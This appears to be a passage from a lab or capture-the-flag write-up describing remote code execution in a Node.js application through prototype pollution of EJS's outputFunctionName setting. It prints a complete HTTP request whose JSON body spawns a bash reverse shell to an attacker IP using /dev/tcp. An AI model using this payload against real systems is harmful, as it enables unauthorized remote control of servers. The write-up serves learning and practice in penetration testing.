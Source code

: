 I tried interacting with the application and injecting some other JSON data:

<figure><img src="../../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

The RCE exploit lies in overwriting `outputFunctionName`. When researching for how to exploit this, I came across this article:

{% embed url="https://eslam.io/posts/ejs-server-side-template-injection-rce/" %}

We can then exploit it using basic Prototype Pollution:

```http
POST /change_status HTTP/1.1
Host: 192.168.183.184:8000
User-Agent:googlebot
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic VW5kZWFkRGluZ29HcnVtYmxpbmczNjk6U2hvcnR5U2tpbmxlc3NUcnVzdGVlNDU2
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 165



{"shields":{"__proto__":{
"outputFunctionName":"x;process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/192.168.45.208/80 0>&1\"');x"
}}}
```

It didn't work at first, and upon sending a GET request to `/reset`, it worked!

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>
